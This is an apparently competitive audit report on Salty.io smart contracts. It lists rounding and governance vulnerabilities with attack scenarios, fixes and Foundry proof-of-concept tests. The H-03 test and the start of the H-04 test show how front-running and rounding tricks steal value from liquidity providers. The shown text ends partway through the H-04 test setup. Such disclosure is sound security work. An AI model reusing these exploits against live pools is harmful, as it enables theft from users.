

# Leaderboard
[Contest Page: Salty.io Mitigation](https://github.com/code-423n4/2024-03-saltyio-mitigation)<br>


`Rank 1 / 3`

# Audited Code Repo
### [Code4rena: Salty.io Mitigation](https://github.com/othernet-global/salty-io.git)

<br>

# Bugs Filed & Their Status

| # | Bug ID | New/Unmitigated | Name | URL | Original Finding | Adjudged Status |
|--------|--------|------|:------|:------:|:------:|-----------------:|
| 1 | [H-01](#h-01) | New | Rounding of `user.virtualRewards` happens in user's favour inside `claimAllRewards()` | [25](https://github.com/code-423n4/2024-03-saltyio-mitigation-findings/issues/25) | [M-01](https://github.com/code-423n4/2024-01-salty-findings/issues/1021) | Accepted as Medium |
| 2 | [H-02](#h-02) | New | Multiple sendSALT proposals can now get approved and together all at once spend more than `5%` of the current SALT balance of the DAO | [60](https://github.com/code-423n4/2024-03-saltyio-mitigation-findings/issues/60) | [M-12](https://github.com/code-423n4/2024-01-salty-findings/issues/621) | Accepted as Medium |
| 3 | [H-03](#h-03) | New | Rounding loophole while adding liquidity can be exploited to steal value | [108](https://github.com/code-423n4/2024-03-saltyio-mitigation-findings/issues/108) |  | Rejected |
| 4 | [H-04](#h-04) | New | `removeLiquidity()` executes unbalanced token removal due to rounding bug, allowing user to steal funds | [126](https://github.com/code-423n4/2024-03-saltyio-mitigation-findings/issues/126) |  | Rejected |
| 5 | [H-05](#h-05) | New | Adding liquidity with `useZapping = true` allows user to steal funds | [127](https://github.com/code-423n4/2024-03-saltyio-mitigation-findings/issues/127) |  | Accepted as Medium |
| 6 | [M-01](#m-01) | New | Proposal can be removed after 30 days without owner's consent  | [2](https://github.com/code-423n4/2024-03-saltyio-mitigation-findings/issues/2) | [M-19](https://github.com/code-423n4/2024-01-salty-findings/issues/362) | Rejected |
| 7 | [M-02](#m-02) | Unmitigated | Salt can still be reused for voting, increasing malicious user's voting power | [3](https://github.com/code-423n4/2024-03-saltyio-mitigation-findings/issues/3) | [M-06](https://github.com/code-423n4/2024-01-salty-findings/issues/844) | Rejected |
| 8 | [M-03](#m-03) | New | Partial snapshot means staking after proposal creation gives unfair benefit | [6](https://github.com/code-423n4/2024-03-saltyio-mitigation-findings/issues/6) | [M-11](https://github.com/code-423n4/2024-01-salty-findings/issues/716) | Accepted as Medium |
| 9 | [M-04](#m-04) | New | Voting mechanism heavily disfavours the `Yes` voters due to transparency of each vote | [93](https://github.com/code-423n4/2024-03-saltyio-mitigation-findings/issues/93) |  | Rejected |
|10 | [M-05](#m-05) | New | Ballot winning at timestamp ballot.ballotMaximumEndTime can be front-run by manuallyRemoveBallot() and deleted | [94](https://github.com/code-423n4/2024-03-saltyio-mitigation-findings/issues/94) |  | Rejected |


<br>

## **HIGH-SEVERITY BUGS**

---

### <a id="h-01"></a>[H-01]
## **Rounding of `user.virtualRewards` happens in user's favour inside `claimAllRewards()`**
#### https://github.com/othernet-global/salty-io/blob/main/src/staking/StakingRewards.sol#L161-L166
#### https://github.com/othernet-global/salty-io/blob/main/src/staking/StakingRewards.sol#L250-L256
#### https://github.com/othernet-global/salty-io/blob/main/src/staking/StakingRewards.sol#L122-L123
<br>

## Summary
[These lines](https://github.com/othernet-global/salty-io/blob/main/src/staking/StakingRewards.sol#L122-L123) were changed as a fix to M-01. `virtualRewardsToRemove` is now rounded up since it needs to be deducted later on from `claimableRewards` on L138.
While this is okay here, it has now led to a rounding of `user.virtualRewards` against the protocol, causing loss inside [claimAllRewards()](https://github.com/othernet-global/salty-io/blob/main/src/staking/StakingRewards.sol#L161-L166).

## New Issue
`_decreaseShare()` is not the only function which enables a user to claim rewards. `claimAllRewards()` can be called too by the user. `claimAllRewards()` internally calls [userRewardForPool()](https://github.com/othernet-global/salty-io/blob/main/src/staking/StakingRewards.sol#L237) which makes use of the `user.virtualRewards` variable in [L250-256](https://github.com/othernet-global/salty-io/blob/main/src/staking/StakingRewards.sol#L250-L256). Since the new fix reduced `user.virtualRewards` to a greater extent than it did in the previous implementation, [L256](https://github.com/othernet-global/salty-io/blob/main/src/staking/StakingRewards.sol#L256) can now return a user reward greater than it did in the previous implementation. The fix has caused the rounding of userRewardForPool against the protocol.

## Impact
Calculation does not round in favour of the protocol, which means that value may leak from the system in favour of the users. This vulnerability enables users to claim more rewards than they are entitled to. Although each instance might involve a small amount, the cumulative effect could be significant due to the frequency of occurrences.

More importantly, this may even cause the last reward claim to witness a scenario where there are not enough rewards to pay them out.

## Recommended Mitigation Steps
While this can be approached in multiple ways, to avoid confusion let's have two separate variables for `virtualRewardsToRemove` accounting, one rounded-up and one rounded-down:
```diff
  File: src/staking/StakingRewards.sol

  // Decrease a user's share for the pool and have any pending rewards sent to them.
  // Does not require the pool to be valid (in case the pool was recently unwhitelisted).
  function _decreaseUserShare( address wallet, bytes32 poolID, uint256 decreaseShareAmount, bool useCooldown ) internal
  {
    require( decreaseShareAmount != 0, "Cannot decrease zero share" );

    UserShareInfo storage user = _userShareInfo[wallet][poolID];
    require( decreaseShareAmount <= user.userShare, "Cannot decrease more than existing user share" );

    if ( useCooldown )
      if ( msg.sender != address(exchangeConfig.dao()) ) // DAO doesn't use the cooldown
      {
      require( block.timestamp >= user.cooldownExpiration, "Must wait for the cooldown to expire" );

      // Update the cooldown expiration for future transactions
      user.cooldownExpiration = block.timestamp + stakingConfig.modificationCooldown();
      }

    // Determine the share of the rewards for the amountToDecrease (will include previously added virtual rewards)
    uint256 rewardsForAmount = ( totalRewards[poolID] * decreaseShareAmount ) / totalShares[poolID];

    // For the amountToDecrease determine the proportion of virtualRewards (proportional to all virtualRewards for the user)
-   // Round virtualRewards up in favor of the protocol
-   uint256 virtualRewardsToRemove = Math.ceilDiv(user.virtualRewards * decreaseShareAmount,  user.userShare );
+   // Round virtualRewardsToRemoveFromClaimable up in favor of the protocol
+   uint256 virtualRewardsToRemoveFromClaimable = Math.ceilDiv(user.virtualRewards * decreaseShareAmount,  user.userShare );
+   // Round virtualRewardsToRemoveFromUserVirtRewards down in favor of the protocol
+   uint256 virtualRewardsToRemoveFromUserVirtRewards = (user.virtualRewards * decreaseShareAmount) / user.userShare;

    // Update totals
    totalRewards[poolID] -= rewardsForAmount;
    totalShares[poolID] -= decreaseShareAmount;

    // Update the user's share and virtual rewards
    user.userShare -= decreaseShareAmount;
-   user.virtualRewards -= virtualRewardsToRemove;
+   user.virtualRewards -= virtualRewardsToRemoveFromUserVirtRewards;

    uint256 claimableRewards = 0;

    // Some of the rewardsForAmount are actually virtualRewards and can't be claimed.
-   // In the event that virtualRewards are greater than actual rewards - claimableRewards will stay zero.
-   if ( virtualRewardsToRemove < rewardsForAmount )
-     claimableRewards = rewardsForAmount - virtualRewardsToRemove;
+   // In the event that virtualRewardsToRemoveFromClaimable are greater than actual rewards - claimableRewards will stay zero.
+   if ( virtualRewardsToRemoveFromClaimable < rewardsForAmount )
+     claimableRewards = rewardsForAmount - virtualRewardsToRemoveFromClaimable;

    // Send the claimable rewards
    if ( claimableRewards != 0 )
      salt.safeTransfer( wallet, claimableRewards );

    emit UserShareDecreased(wallet, poolID, decreaseShareAmount, claimableRewards);
  }
```

---

### <a id="h-02"></a>[H-02]
## **Multiple sendSALT proposals can now get approved and together all at once spend more than `5%` of the current SALT balance of the DAO**
#### https://github.com/othernet-global/salty-io/blob/main/src/dao/Proposals.sol#L209
<br>

## Summary
The [comment on L199](https://github.com/othernet-global/salty-io/blob/main/src/dao/Proposals.sol#L199) above `proposeSendSALT()` clearly states (just like in the previous implementation) that:
```js
  // Only one sendSALT Ballot can be open at a time and the sending limit is 5% of the current SALT balance of the DAO.
```
The fix applied for [M-12](https://github.com/code-423n4/2024-01-salty-findings/issues/621) on [L209](https://github.com/othernet-global/salty-io/blob/main/src/dao/Proposals.sol#L209) however has changed the unique ballot name now which means multiple proposals for `proposeSendSALT()` can now be opened concurrently and drain more than `5%` of DAO's SALT balance. 

## Impact
The presence of multiple concurrent proposals for `proposeSendSALT()` means that now 2 ballots (or 20) could get approved simultaneously and all of a sudden 10% (or 100%) of DAO's SALT balance can be drained. 
In the worst case, a malicious user with large SALT balance or a group of coordinating malicious users could come together and create multiple proposals simultaneously. Since the balance of DAO does not diminish when proposal is created but only when the ballot is executed at finalization & a transfer made, 20 such proposals are enough to drain 100%. 

## Recommended Mitigation Steps
Since we want to avoid the front-running & DOS attack highlighted in M-12 while still safeguarding DAO's `95%` SALT balance, the following steps are recommended:
- Since even in the old implementation `proposeSendSALT()` could be finalized every 14 days, transferring 5% of the balance each time, similarly enforce a 14-day (or X days) of wait period between any two ballot finalizations. Let's imagine a possible scenario to make things clearer:
  - 2 proposals are created simultaneously.
  - Proposal-1 finalizes after 15 days. `5%` SALT is transferred.
  - Proposal-2 reaches quorum on the 16th day and can be finalized & passed. However, since the last sendSALT proposal made a transfer just 1 day ago, proposal-2 needs to wait another 13 days before attempting finalization again. 

- This also means the protocol will have to take care that the upper ceiling of `amount` is `5%` of the **_current balance_**. This is because when the proposal was created, the first ballot had not finalized & transferred SALT and hence `5%` would have evaluated to a greater amount. So at the time of finalization or while doing the transfer, perform a check along the lines of:
```js
  uint256 currentBalance = exchangeConfig.salt().balanceOf( address(exchangeConfig.dao()) );
  if (amount > currentBalance * 5 / 100)
    amount = currentBalance;
```

---

### <a id="h-03"></a>[H-03]
## **Rounding loophole while adding liquidity can be exploited to steal value**
#### https://github.com/othernet-global/salty-io/blob/main/src/pools/Pools.sol#L121-L136
<br>

## Summary
The rounding operations done [here](https://github.com/othernet-global/salty-io/blob/main/src/pools/Pools.sol#L121-L136) inside the function `_addLiquidity()` allow a malicious user to manipulate token ratio using only `depositLiquidityAndIncreaseShare()`, eventually gaining value and causing loss to other liquidity providers.
```js
  File: src/pools/Pools.sol

  121:                          // Add liquidity to the pool proportional to the current existing token reserves in the pool.
  122:                          // First, try the proportional amount of tokenB for the given maxAmountA
  123: @--->                    uint256 proportionalB = ( maxAmount0 * reserve1 ) / reserve0;
  124:          
  125:                          // proportionalB too large for the specified maxAmountB?
  126:                          if ( proportionalB > maxAmount1 )
  127:                                  {
  128:                                  // Use maxAmountB and a proportional amount for tokenA instead
  129:                                  addedAmount0 = ( maxAmount1 * reserve0 ) / reserve1;
  130:                                  addedAmount1 = maxAmount1;
  131:                                  }
  132:                          else
  133:                                  {
  134: @--->                            addedAmount0 = maxAmount0;
  135:                                  addedAmount1 = proportionalB;
  136:                                  }
```

By having a quick look at the old code, it seems [this exact vulnerability was present there too](https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/pools/Pools.sol#L107-L122), although the exact numbers will be a bit different than those shown below because the [amount of liquidity shares were calculated a bit differently](https://github.com/code-423n4/2024-01-salty/blob/53516c2cdfdfacb662cdea6417c52f23c94d5b5b/src/pools/Pools.sol#L131-L135).

## Description
Salty's AAA logic makes it difficult to manipulate token ratios via swaps as the profits of such an attack are eaten away by internal atomic arbs. However, the ratios can still be manipulated to an extent while adding liquidity, which escape atomic arbs. Slippage parameters provided by other liquidity providers give a degree of wiggle room to make this possible.
<br>

Attack Scenario:
- In a pool of `token1` and `token2`, the fair ratio to be maintained for `token1:token2` is `1:10`. One can imagine that `1 wei` of token1 = `$10` and `1 wei` of token2 = `$1`.
- The first depositor, Alice calls `depositLiquidityAndIncreaseShare(token, token2, 101, 1010, 101, 1010, 1111, block.timestamp, false)` to deposit `101 wei` and `1010 wei` of the tokens with proper slippage parameters. She gets `101 + 1010 = 1111` shares.
- The second depositor, Charlie calls `depositLiquidityAndIncreaseShare( token1, token2, 101 ether, 1010 ether, 99.99 ether, 1010 ether, 1109.99 ether, block.timestamp, false )` to attempt a deposit of `101 ether` & `1010 ether`. He understands that in a dynamic market various swaps might be happening at the same time, effecting the price ratios, hence provides a slippage of around `1%` for token1 by specifying minimum token1 as `99.99 ether` and minimum shares as `1109.99`. He does not tolerate any slippage for token2.
- Assume Bob to have 3 alternate accounts apart from his main one. Let's name them `Bob2`, `Bob3` and `Bob4`. Multiple accounts are being used to get around the 1-hour cooldown period.
- Bob front runs Charlie and calls `depositLiquidityAndIncreaseShare()` four times with varying amounts:
  - Deposit-1 : From his main account, he calls `depositLiquidityAndIncreaseShare( token1, token2, 101, 1019, 0, 0, 0, block.timestamp, false )` to add `101 and 1019` of token1 and token2 respectively. Note how Bob deposited additional `9 wei` of token2, hence receiving 9 extra shares. Bob was allowed to deposit `1019 wei` of token2 instead of `1010 wei` because `proportionalB` is calculated on [L123](https://github.com/othernet-global/salty-io/blob/main/src/pools/Pools.sol#L123) by rounding down. However, [L134](https://github.com/othernet-global/salty-io/blob/main/src/pools/Pools.sol#L134) still uses `maxAmount0` i.e. `1019`.
  - Deposit-2 : From `Bob2` account, he calls `depositLiquidityAndIncreaseShare( token1, token2, 101, 1024, 0, 0, 0, block.timestamp, false )` to add `101 and 1024` of token1 and token2 respectively.
  - Deposit-3 : From `Bob3` account, he calls `depositLiquidityAndIncreaseShare( token1, token2, 101, 1027, 0, 0, 0, block.timestamp, false )` to add `101 and 1027` of token1 and token2 respectively.
  - Deposit-4 : From `Bob4` account, he calls `depositLiquidityAndIncreaseShare( token1, token2, 101, 1021, 0, 0, 0, block.timestamp, false )` to add `101 and 1021` of token1 and token2 respectively.
- Bob has spent a total of `404 token1` and `4091 token2` so far i.e. `10 * 404 + 1 * 4091 = $8131`.
- The ratios have now been skewed to equal `505 : 5101` which makes token1 appear costlier than the original ratio of `1 : 10`.
- Charlie's transaction goes through after Bob's transaction. Due to the modified ratio Charlie now receives `1109990198000392079984` shares and not all his tokens are deposited. His slippage parameters were invoked.
- Bob now swaps `1 ether` of token1 for token2. He calls `depositSwapWithdraw(token1, token2, 1 ether, 0, block.timestamp)` and receives `10000970589205883324` of token2, higher than the market return of `10 ether`. His profit here is `$970589205883324`.
- After an hour, Bob now withdraws his entire `4495` liquidity shares across all his accounts to be credited with `408 token1` and `4049 token2` i.e `10 * 408 + 1 * 4049 = $8129`. He lost `8131 - 8129 = $2` here.

Bob's final profit is `970589205883324 - 2 = $970589205883322`.

## Impact
- Bob steals value at the expense of other liquidity providers.

## Proof of Concept

<details><summary>Click to view PoC</summary>

Create a new file `src/staking/tests/LPManipulation.t.sol` with the following code and run via `COVERAGE="yes" NETWORK="sep" forge test -vv --rpc-url https://rpc.ankr.com/eth_sepolia --mt test_t0x1c_LPManipulation`:
```js
// SPDX-License-Identifier: Unlicensed
pragma solidity =0.8.22;

import "../../dev/Deployment.sol";


contract LPManipulation is Deployment
{
	bytes32[] public poolIDs;
	bytes32 public pool1;

	IERC20 public token1;
	IERC20 public token2;

	address public constant alice = address(0x1111);
	address public constant bob = address(0x2222);
	address public constant charlie = address(0x3333);

	uint256 token1DecimalPrecision;
	uint256 token2DecimalPrecision;

	function setUp() public
	{
		// If $COVERAGE=yes, create an instance of the contract so that coverage testing can work
		// Otherwise, what is tested is the actual deployed contract on the blockchain (as specified in Deployment.sol)
		if ( keccak256(bytes(vm.envString("COVERAGE" ))) == keccak256(bytes("yes" )))
			initializeContracts();


		grantAccessAlice();
		grantAccessBob();
		grantAccessCharlie();
		grantAccessDeployer();
		grantAccessDefault();

		finalizeBootstrap();

		vm.prank(address(daoVestingWallet));
		salt.transfer(DEPLOYER, 1000000 ether);

		token1DecimalPrecision = 18;
		token2DecimalPrecision = 18;

		token1 = new TestERC20("TEST", token1DecimalPrecision);
		token2 = new TestERC20("TEST", token2DecimalPrecision);

		pool1 = PoolUtils._poolID(token1, token2);

		poolIDs = new bytes32[](1);
		poolIDs[0] = pool1;

		// Whitelist the _pools
		vm.startPrank( address(dao) );
		poolsConfig.whitelistPool(token1, token2);
		vm.stopPrank();

		vm.prank(DEPLOYER);
		salt.transfer( address(this), 100000 ether );


		salt.approve(address(liquidity), type(uint256).max);

		vm.startPrank(alice);
		token1.approve(address(liquidity), type(uint256).max);
		token2.approve(address(liquidity), type(uint256).max);
		vm.stopPrank();

		vm.startPrank(bob);
		token1.approve(address(liquidity), type(uint256).max);
		token2.approve(address(liquidity), type(uint256).max);
		token1.approve(address(pools), type(uint256).max);
		token2.approve(address(pools), type(uint256).max);
		vm.stopPrank();

		vm.startPrank(charlie);
		token1.approve(address(liquidity), type(uint256).max);
		token2.approve(address(liquidity), type(uint256).max);
		token1.approve(address(pools), type(uint256).max);
		token2.approve(address(pools), type(uint256).max);
		vm.stopPrank();

		// DAO gets some salt and pool lps and approves max to staking
		token1.transfer(address(dao), 1000 * 10**token1DecimalPrecision);
		token2.transfer(address(dao), 1000 * 10**token2DecimalPrecision);
		vm.startPrank(address(dao));
		token1.approve(address(liquidity), type(uint256).max);
		token2.approve(address(liquidity), type(uint256).max);
		vm.stopPrank();
	}


	// Convenience function
	function totalSharesForPool( bytes32 poolID ) public view returns (uint256)
	{
		bytes32[] memory _pools2 = new bytes32[](1);
		_pools2[0] = poolID;

		return liquidity.totalSharesForPools(_pools2)[0];
	}

	function test_t0x1c_LPManipulation() public {
		// ******************************* SETUP **************************************
		// Give Alice, Bob & Charlie some tokens for testing
		token1.transfer(alice, 101);
		token2.transfer(alice, 1010);
		token1.transfer(bob, 404 + 1 ether);
		token2.transfer(bob, 4091);
		token1.transfer(charlie, 101 ether);
		token2.transfer(charlie, 1010 ether);

		assertEq(totalSharesForPool( pool1 ), 0, "Pool should initially have zero liquidity share" );
		assertEq(liquidity.userShareForPool(alice, pool1), 0, "Bob's initial liquidity share should be zero");
		assertEq(liquidity.userShareForPool(bob, pool1), 0, "Bob's initial liquidity share should be zero");
		assertEq(liquidity.userShareForPool(charlie, pool1), 0, "Charlie's initial liquidity share should be zero");
		assertEq( token1.balanceOf( address(pools)), 0, "liquidity should start with zero token1" );
		assertEq( token2.balanceOf( address(pools)), 0, "liquidity should start with zero token2" );

		// deposit ratio of 1:10 i.e token1's price is 10 times that of token2
		uint256 addedAmount1 = 101;
		uint256 addedAmount2 = 1010;

		// Alice adds liquidity in the correct ratio, as the first depositor
		vm.prank(alice);
		uint256 addedLiquidityAlice = liquidity.depositLiquidityAndIncreaseShare( token1, token2, addedAmount1, addedAmount2, addedAmount1, addedAmount2, addedAmount1 + addedAmount2, block.timestamp, false );
		console.log("addedLiquidityAlice =", addedLiquidityAlice);
		assertEq(liquidity.userShareForPool(alice, pool1), addedLiquidityAlice, "Alice's share should have increased" );

		assertEq( token1.balanceOf( address(pools)), addedAmount1, "Tokens were not deposited into the pool as expected" );
		assertEq( token2.balanceOf( address(pools)), addedAmount2, "Tokens were not deposited into the pool as expected" );
		assertEq(totalSharesForPool( pool1 ), addedLiquidityAlice, "totalShares mismatch after Alice's deposit" );
		// ******************************* SETUP ENDS **************************************
		
		console.log("\n\n***************************** Bob Attacks ************************************\n");

		// @audit : Bob front-runs Charlie & adds liquidity while exploiting the rounding error
		vm.startPrank(bob);
		uint256 totalLiquidityBob = 0;
		
		// Bob's account
		uint256 addedLiquidityBob = liquidity.depositLiquidityAndIncreaseShare( token1, token2, addedAmount1, 1019, 0, 0, 0, block.timestamp, false );
		console.log("addedLiquidityBob_1 =", addedLiquidityBob);
		totalLiquidityBob += addedLiquidityBob;
		skip(1 hours); // just for PoC, not needed in real attack
		// Bob's 2nd account
		addedLiquidityBob = liquidity.depositLiquidityAndIncreaseShare( token1, token2, addedAmount1, 1024, 0, 0, 0, block.timestamp, false );
		console.log("addedLiquidityBob_2 =", addedLiquidityBob);
		totalLiquidityBob += addedLiquidityBob;
		skip(1 hours); // just for PoC, not needed in real attack
		// Bob's 3rd account
		addedLiquidityBob = liquidity.depositLiquidityAndIncreaseShare( token1, token2, addedAmount1, 1027, 0, 0, 0, block.timestamp, false );
		console.log("addedLiquidityBob_3 =", addedLiquidityBob);
		totalLiquidityBob += addedLiquidityBob;
		skip(1 hours); // just for PoC, not needed in real attack
		// Bob's 4th account
		addedLiquidityBob = liquidity.depositLiquidityAndIncreaseShare( token1, token2, addedAmount1, 1021, 0, 0, 0, block.timestamp, false );
		console.log("addedLiquidityBob_4 =", addedLiquidityBob);
		totalLiquidityBob += addedLiquidityBob;
		skip(1 hours); // just for PoC, not needed in real attack

		console.log("Bob total liquidity shares =", totalLiquidityBob);
		console.log("Tokens spent by Bob: token1 = %s, token2 = %s", 101 * 4, 1019 + 1024 + 1027 + 1021);
		vm.stopPrank();

		console.log("\nSkewed reserve ratio now:\n token1 = %s, token2 = %s\n", token1.balanceOf(address(pools)), token2.balanceOf(address(pools)));

		// Charlie transaction goes through now which adds liquidity with suitable slippage parameters
		vm.prank(charlie);
		// @audit-info : 1% slippage for token1
		uint256 addedLiquidityCharlie = liquidity.depositLiquidityAndIncreaseShare( token1, token2, 101 ether, 1010 ether, 99.99 ether, 1010 ether, 1109.99 ether, block.timestamp, false );
		console.log("addedLiquidityCharlie = %s\n", addedLiquidityCharlie);

		vm.prank(bob);
		// Bob swaps
		(uint256 swappedOut) = pools.depositSwapWithdraw(token1, token2, 1 ether, 0, block.timestamp);
		emit log_named_decimal_uint("token2 swappedOut in exchange for 1 ether of token1 (should be greater than 10 ether) =", swappedOut, 18);

		// Bob withdraws all his shares after an hour
		skip(1 hours);
		vm.prank(bob);
		(uint256 token1ReceivedByBob, uint256 token2ReceivedByBob) = liquidity.withdrawLiquidityAndClaim(token1, token2, totalLiquidityBob, 0, 0, block.timestamp);
		console.log("token1ReceivedByBob = %s, token2ReceivedByBob = %s", token1ReceivedByBob, token2ReceivedByBob);
	}
}
```

</details>

<br>

Output:
```js
[PASS] test_t0x1c_LPManipulation() (gas: 1238118)
Logs:
  addedLiquidityAlice = 1111

***************************** Bob Attacks ************************************

  addedLiquidityBob_1 = 1120

  addedLiquidityBob_2 = 1125

  addedLiquidityBob_3 = 1128

  addedLiquidityBob_4 = 1122

  Bob total liquidity shares = 4495
  Tokens spent by Bob: token1 = 404, token2 = 4091

Skewed reserve ratio now:
 token1 = 505, token2 = 5101

  addedLiquidityCharlie = 1109990198000392079984

  token2 swappedOut in exchange for 1 ether of token1 (should be greater than 10 ether) =: 10.000970589205883324
  token1ReceivedByBob = 408, token2ReceivedByBob = 4049
```

<br>
<br>

## Recommended Mitigation Steps
Do a "reverse-calculation" to make sure additional tokens are not being added and the correct ratio is being maintained:
```diff
		// Add liquidity to the pool proportional to the current existing token reserves in the pool.
		// First, try the proportional amount of tokenB for the given maxAmountA
		uint256 proportionalB = ( maxAmount0 * reserve1 ) / reserve0;

		// proportionalB too large for the specified maxAmountB?
		if ( proportionalB > maxAmount1 )
			{
			// Use maxAmountB and a proportional amount for tokenA instead
			addedAmount0 = ( maxAmount1 * reserve0 ) / reserve1;
			addedAmount1 = maxAmount1;
			}
		else
			{
-			addedAmount0 = maxAmount0;
+			addedAmount0 = ( proportionalB * reserve0 ) / reserve1;
			addedAmount1 = proportionalB;
			}
```
The above change now makes it impossible to manipulate ratios via skewed deposits. One can run the PoC again to verify.

---

---

### <a id="h-04"></a>[H-04]
## **`removeLiquidity()` executes unbalanced token removal due to rounding bug, allowing user to steal funds**
#### https://github.com/othernet-global/salty-io/blob/main/src/pools/Pools.sol#L193-L194
<br>

## Summary
[Precision loss in these steps](https://github.com/othernet-global/salty-io/blob/main/src/pools/Pools.sol#L193-L194) inside function `removeLiquidity()` while calculating `reclaimedA` and `reclaimedB` allows a malicious user to manipulate token ratio and steal funds from other liquidity providers.
```js
  File: src/pools/Pools.sol

      // Remove liquidity for the user and reclaim the underlying tokens
      // Only callable from the Liquidity contract - so it can specify totalLiquidity with authority
      function removeLiquidity( IERC20 tokenA, IERC20 tokenB, uint256 liquidityToRemove, uint256 minReclaimedA, uint256 minReclaimedB, uint256 totalLiquidity ) external nonReentrant returns (uint256 reclaimedA, uint256 reclaimedB)
        {
        require( msg.sender == address(liquidity), "Pools.removeLiquidity is only callable from the Liquidity contract" );
        require( liquidityToRemove > 0, "The amount of liquidityToRemove cannot be zero" );

        (bytes32 poolID, bool flipped) = PoolUtils._poolIDAndFlipped(tokenA, tokenB);

        // Determine how much liquidity is being withdrawn and round down in favor of the protocol
        PoolReserves storage reserves = _poolReserves[poolID];
@--->   reclaimedA = ( reserves.reserve0 * liquidityToRemove ) / totalLiquidity;
@--->   reclaimedB = ( reserves.reserve1 * liquidityToRemove ) / totalLiquidity;

        reserves.reserve0 -= uint128(reclaimedA);
        reserves.reserve1 -= uint128(reclaimedB);

        ....
        ....
```

## Attack Scenario
- In a pool of `token1` and `token2`, the fair ratio to be maintained for `token1:token2` is `1:2`. One can imagine that `1 wei` of token1 = `$2` and `1 wei` of token2 = `$1`.
- The first depositor, Alice calls `depositLiquidityAndIncreaseShare(token, token2, 101, 202, 101, 202, 303, block.timestamp, false)` to deposit `101 wei` and `202 wei` of the tokens with proper slippage parameters. She gets `101 + 202 = 303` shares.
- The second depositor Bob, who is a malicious user, has 9 alias or alternate accounts apart from his main one. Multiple accounts are being used to get around the 1-hour cooldown period required after every withdrawal. This is necessary in the latter part of the attack.
- Bob adds liquidity in the correct ratio of `101 wei` and `202 wei`. 
- Bob's 9 alternate accounts each add liquidity in the correct ratio of `101 wei` and `202 wei`. 
- State of the pool right now is token1 = `1111 wei` and token2 = `2222 wei`. Bob and his alternate accounts have a total of `3030` shares out of the entire `3333` shares.
- Cooldown duration of 1 hour passes with no activity.
- The third depositor, Charlie calls `depositLiquidityAndIncreaseShare( token1, token2, 303 ether, 606 ether, 303 ether, 603 ether, 903 ether, block.timestamp, false )` to attempt a deposit of `303 ether` & `606 ether`. He understands that in a dynamic market various swaps might be happening at the same time, effecting the price ratios, hence provides a slippage of less than `0.5%` for token2 by specifying minimum token2 as `603 ether` and a slippage of around `0.67%` by specifying minimum shares as `903 ether`. He does not tolerate any slippage for token1 in our example.
- Bob front runs Charlie and calls `withdrawLiquidityAndClaim(token1, token2, 5, 0, 0, block.timestamp)` 10 times, once with each account of his. This removes 5 shares each time. Let's look at the numbers:
  - Withdrawal-1 : 
    ```js
      reclaimedA = 1111 * 5 / 3333 = 1 // (1.6666 rounded-down) 
      reclaimedB = 2222 * 5 / 3333 = 3 // (3.3333 rounded-down) 
    ```
    Instead of removing tokens in the ratio of `1:2`, the protocol removed them in the ratio `1:3`. Bob made a loss here since 5 shares of his were lost and not 4. But later on, he will gain more than he loses.
    Total shares remaining now = `3333 - 5 = 3328`.
  - Withdrawal-2 : 
    ```js
      reclaimedA = 1110 * 5 / 3328 = 1 // (1.6676 rounded-down) 
      reclaimedB = 2219 * 5 / 3328 = 3 // (3.3338 rounded-down) 
    ```
    Another unbalanced removal.
  - After repeating the above with all his accounts (withdrawing 5 shares each time), the final skewed token ratio is `1101 : 2192 =  1.990917347865576748`.
- Charlie's transaction goes through after Bob's transaction. Due to the modified ratio Charlie now receives `903495912806539509536` shares. His slippage parameters were invoked.
- Bob now swaps `1 ether` of token2 for token1. He calls `depositSwapWithdraw(token2, token1, 1 ether, 0, block.timestamp)` and receives `501449772049837887` or `0.5014 ether` of token1, higher than the market rate of `0.5 ether`.
- After an hour, Bob now withdraws his entire `2980` liquidity shares across all his accounts to be credited with `997 token1` and `1992 token2`.

Bob's final profit is around `$ 2899544099675770`.

## Impact
Bob can steal funds from Charlie and profit.

## Proof of Concept

<details><summary>Click to view PoC</summary>

Create a new file `src/staking/tests/LiquidityManipulation.t.sol` with the following code and run via `COVERAGE="yes" NETWORK="sep" forge test -vv --rpc-url https://rpc.ankr.com/eth_sepolia --mt test_t0x1c_RoundingErrorWhileRemovingLiquidity`:
```js
// SPDX-License-Identifier: Unlicensed
pragma solidity =0.8.22;

import "../../dev/Deployment.sol";


contract LiquidityManipulation is Deployment
{
	bytes32[] public poolIDs;
	bytes32 public pool1;

	IERC20 public token1;
	IERC20 public token2;

	address public constant alice = address(0x1111);
	address public constant bob = address(0x2222);
	address public constant charlie = address(0x3333);

	uint256 token1DecimalPrecision;
	uint256 token2DecimalPrecision;

	function setUp() public
	{
		// If $COVERAGE=yes, create an instance of the contract so that coverage testing can work
		// Otherwise, what is tested is the actual deployed contract on the blockchain (as specified in Deployment.sol)
		if ( keccak256(bytes(vm.envString("COVERAGE" ))) == keccak256(bytes("yes" )))
			initializeContracts();


		grantAccessAlice();
		grantAccessBob();
		grantAccessCharlie();
		grantAccessDeployer();
		grantAccessDefault();

		finalizeBootstrap();

		vm.prank(address(daoVestingWallet));
		salt.transfer(DEPLOYER, 1000000 ether);

		token1DecimalPrecision = 18;
		token2DecimalPrecision = 18;

		token1 = new TestERC20("TEST", token1DecimalPrecision);
		token2 = new TestERC20("TEST", token2DecimalPrecision);

		pool1 = PoolUtils._poolID(token1, token2);

		poolIDs = new bytes32[](1);
		poolIDs[0] = pool1;

		// Whitelist the _pools
		vm.startPrank( address(dao) );
		poolsConfig.whitelistPool(token1, token2);
		vm.stopPrank();

		vm.prank(DEPLOYER);
		salt.transfer( address(this), 100000 ether );


		salt.approve(address(liquidity), type(uint256).max);

		vm.startPrank(alice);
		token1.approve(address(liquidity), type(uint256).max);
		token2.approve(address(liquidity), type(uint256).max);
		vm.stopPrank();

		vm.startPrank(bob);
		token1.approve(address(liquidity), type(uint256).max);
		token2.approve(address(liquidity), type(uint256).max);
		token1.approve(address(pools), type(uint256).max);
		token2.approve(address(pools), type(uint256).max);
		vm.stopPrank();

		vm.startPrank(charlie);
		token1.approve(address(liquidity), type(uint256).max);
		token2.approve(address(liquidity), type(uint256).max);
		token1.approve(address(pools), type(uint256).max);
		token2.approve(address(pools), type(uint256).max);
		vm.stopPrank();

		token1.transfer(address(dao), 1000 * 10**token1DecimalPrecision);
		token2.transfer(address(dao), 1000 * 10**token2DecimalPrecision);
